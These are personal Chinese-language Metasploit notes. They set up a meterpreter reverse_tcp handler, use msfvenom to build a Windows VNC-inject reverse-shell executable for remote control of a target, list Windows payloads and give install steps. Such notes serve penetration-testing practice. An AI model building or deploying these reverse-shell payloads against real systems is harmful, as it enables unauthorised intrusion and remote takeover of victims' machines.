 # 0x01 常用命名
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.100
set lport 4444
run
```

# 0x02 远程控制
```
选择windows/x64/vncinject/reverse_tcp，设置AUTOVNC为false，run之后，再开启vncviewer，配置如下

msfvenom –p windows/x64/vncinject/reverse_tcp
AUTOVNC=false
LHOST=192.168.1.4
LPORT=8080
–f exe
–o 192.168.1.4-8080.exe
run

目标主机执行payload后，监听器需成功接收反连，然后打开vncviewer，访问127.0.0.1:5900
```

# 0x03 检索包含windows的Payload
```
经测试发现，每行开头有4个空格

msfvenom -l payloads | grep "^   windows"
```

# 0x04 各个平台下的安装
发现自己经常需要在新环境下安装Metasploit，每次都要查阅官方文档效率有点低，故有此笔记
```
# Windows下安装
下载安装器，地址：https://windows.metasploit.com/metasploitframework-latest.msi
一路下一步即可

# Linux（Ubuntu18.04）下安装
一条命令自动安装
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall

# 参考链接
https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html
```